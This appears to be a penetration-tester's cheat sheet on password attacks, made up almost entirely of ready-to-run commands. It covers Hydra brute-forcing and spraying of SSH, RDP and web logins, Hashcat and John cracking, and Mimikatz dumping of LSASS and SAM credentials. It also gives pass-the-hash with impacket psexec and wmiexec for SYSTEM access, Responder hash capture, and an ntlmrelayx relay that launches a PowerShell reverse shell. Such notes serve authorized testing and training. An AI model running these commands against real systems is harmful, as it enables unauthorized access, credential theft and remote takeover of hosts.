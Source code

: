 # Password attacks

Graphics card cracking: 
- https://openbenchmarking.org/test/pts/hashcat-1.0.0
- https://www.tomshardware.com/news/eight-rtx-4090s-can-break-passwords-in-under-an-hour

Check:
- https://scatteredsecrets.com/

## Hydra

On GitHub: https://github.com/vanhauser-thc/thc-hydra

### Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
hydra -l user -P wordlist.txt rdp://IpVictim # default port is 3389
```

### Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```
Userlist on Kali: `/usr/share/wordlists/dirb/others/names.txt`

### Http

Check the source code to get the user and password field names:
```
hydra -P wordlist.txt $IpVictim http-post-form "/baseurl_like_index.html_or_php:user_form_field=admin:password_form_field=^PASS^:error message when password is wrong"
hydra -l user -P wordlist.txt http-get $IpVictim
```

## Hashcat

Benchmark: `-b`
Example of rule: https://hashcat.net/wiki/doku.php?id=rule_based_attack
```
: ---> do nothing
$1 ---> add '1' and the end
c $1 $2 $3 ---> capitalize, add '1', then '2', then '3' at the end
$ ---> append a whitespace
^ ---> prepend a whitespace
$1 c $! ---> append '1', then capitalize, then add '!' at the end
$2 c $! ---> append '2', then capitalize, then add '!' at the end
$1 $2 $3 c $! ---> append '1', then '2', then '3', then capitalize, then append '!'
```
Usage:
```
hashcat -r rulefile.rule wordlist.txt --stdout
hashcat -m 0 tocrackfile.txt wordlist.txt -r rulefile.rule --force # MD5 hash (-m 0), ignore GPU warnings (--force)

hastcat wordlist.txt -r rulelist.txt --stdout
hashcat wordlist.txt -j 'd' wordlist.txt --stdout > newwordlist.txt
hashcat -m 0 tocrack.txt -k 'u' newwordlist.txt --force
hashcat -m passman.mode passman.hash rockyou.txt -r rockyou-30000.rule --force
```
Common rules: `/usr/share/hashcat/rules/` (for rockyou: `rockyou-30000.rule`)

## Ssh passphrase

```
ssh2john id_rsa > ssh.hash
hashcat -h | grep -i "ssh"
hashcat -m ssh.hashcat.mode ssh.hash ssh.passwords -r ssh.rule --force
cp ssh.rule /etc/john/otherssh.rule
vim /etc/john/john.config
john --wordlist=ssh.passwords --rules=sshJohnRules ssh.hash
```

---

## Mimikatz

Password modules:
- extraction from [LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service): `sekurlsa::logonpasswords`
- dump: `lsadump::sam` (lighter)

Access right needed:
- extraction: __SeDebugPrivilege__
- privilege escalation: __SeImpersonatePrivilege__ (e.g. local administrators)

## NTLM

On Windows:
```
Get-LocalUser
.\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```
Back on Kali:
```
hashcat -h | grep -i ntlm
hashcat -m ntlm.mode user.hash /u/s/w/rockyou.txt -r /u/s/h/r/best64.rule --force
```

## Pass NTLM

```
smbclient \\\\IpVictim\\someshare -U Administrator --pw-nt-hash adminhash # smb> get file.txt
impacket-psexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # nt authority\system
impacket-wmiexec -hashes 00000000000000000000000000000000:adminhash Administrator@IpVictim # host\administrator

```

## Net-NTLMv2

Kali
```
sudo responder -I ethX
```
Windows
```
smb \\IpAtt\fakeshare
```
then `hashcat`

## Relay Net-NTLMv2

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t IpVictim -c "powershell -enc base64reverseshell"
```
